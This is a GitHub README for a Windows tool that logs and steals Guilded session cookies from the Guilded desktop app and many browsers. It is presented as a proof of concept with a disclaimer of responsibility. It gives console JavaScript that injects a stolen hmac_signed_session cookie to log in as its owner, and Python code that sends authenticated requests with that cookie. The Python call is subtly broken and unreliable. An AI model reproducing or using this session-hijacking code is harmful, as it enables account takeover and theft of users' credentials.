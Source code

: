 # Guilded Session Logger
A token logger; except for Guilded!

Enjoyed the repository? Please star it!

### POC
This repository is a proof of concept. The owner(s) and member(s) of this repository and organization take no responsibility for your actions.

### Important
This project logs session cookies. This means that your cookie may expire, unlike Discord tokens.

## What's Supported?
Windows only.
- **Guilded (desktop app)**
- **Reguilded (modified desktop app)**
- **Google Chrome**
- **Google Chrome Canary (Google Chrome SxS)**
- **Microsoft Edge**
- **Opera**
- **Opera GX**
- **Brave**
- **Firefox**
- Iridium (UNTESTED)
- Yandex (UNTESTED)
- Uran (UNTESTED)
- Amigo (UNTESTED)
- Torch (UNTESTED)
- Kometa (UNTESTED)
- Orbitum (UNTESTED)
- CentBrowser (UNTESTED)
- 7Star (UNTESTED)
- Sputnik (UNTESTED)
- Vivaldi (UNTESTED)
- Epic Privacy Browser (UNTESTED)

# Contributing
Issues and pull requests welcome!

If you tested this on a UNTESTED browser, make an issue!

# License
Read the [License](LICENSE)

# Logging in with a cookie
(Desktop only)
1. Open dev tools. (Ctrl + Shift + I on Windows, Command + Option + I on Mac)
2. Select "Console"
3. Paste the following into the console:
```javascript
function login(sessionCookie) {
  document.cookie = `hmac_signed_session=${sessionCookie}`;
  document.cookie = "authenticated=True";
  document.location.reload();
}

var loginCookie = 'your cookie in quotes or apostrophe here';
login(loginCookie);
```

# Making a request with a cookie
So you want to make a selfbot of a sort? You should be using `guilded.py==1.0.0`'s system; it's more efficient!

But without an email/password, this'll have to do...

### Headers
These headers stay the same for most requests. You can always check the headers in the Network tab of Dev Tools if needed!
```json
{
    "accept": "application/json, text/javascript, */*; q=0.01",
    "accept-encoding": "gzip, deflate, br",
    "accept-language": "en-US,en;q=0.9",
    "referer": "https://www.guilded.gg/",
    "sec-ch-ua": '"Not.A/Brand";v="8", "Chromium";v="114", "Microsoft Edge";v="114"',
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": '"Windows"',
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-requested-with": "XMLHttpRequest"
}
```

## Python
```python
import requests
loginCookie = 'your login cookie here'

url = 'your request url here'
cookies = [
    ("hmac_signed_session", loginCookie),
    ("authenticated", "true"),
    ("gk", "electron_background_worker_watchdog%2Cuse_rtc_voice_connection%2Cmultiple_files_drag_drop%2Cshow_ptt_warning_banner%2Cnative_reaction_motion%2Cenable_progressive_image_uri_string%2Cenable_async_reactions%2Cnative_emotes_settings_screen%2Cserver_subs_prevent_native_subscribe_flow_ios%2Cenable_remove_reactions%2Cwebview_inject_cookies_disabled%2Cnative_audit_log_screen%2Candroid_soft_haptic_feedback%2Cenable_media_renderer_from_alternate_srcs%2Cwebrtc_vad%2Cmentionables_v2%2Cenable_scrollbar_v2%2Cwhimsical_bot_icons%2Cpause_stream_preview_unfocused%2Cnative_loopback_capture%2Crole_icon%2Creaction_picker_navbar_on_native%2Cmobile_virtualized_sidebar%2Cstyle_ios_text_input%2Cstyle_android_text_input%2Ccan_edit_socket_permissions%2Cyt_allow_custom_name%2Cchat_message_context_menu%2Cprofile_hover_card_v3%2Cpartner_program_v2%2Cvideo_streaming_pip_view_enabled%2Cshow_game_presence%2Cnative_update_app_overlay")
]
headers = {
    "accept": "application/json, text/javascript, */*; q=0.01",
    "accept-encoding": "gzip, deflate, br",
    "accept-language": "en-US,en;q=0.9",
    "referer": "https://www.guilded.gg/",
    "sec-ch-ua": '"Not.A/Brand";v="8", "Chromium";v="114", "Microsoft Edge";v="114"',
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": '"Windows"',
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-requested-with": "XMLHttpRequest"
}
payload = {} # your payload here. If no payload, put None
requests.request('method', headers=headers, payload=payload, cookies=dict(cookies), url=url)
```
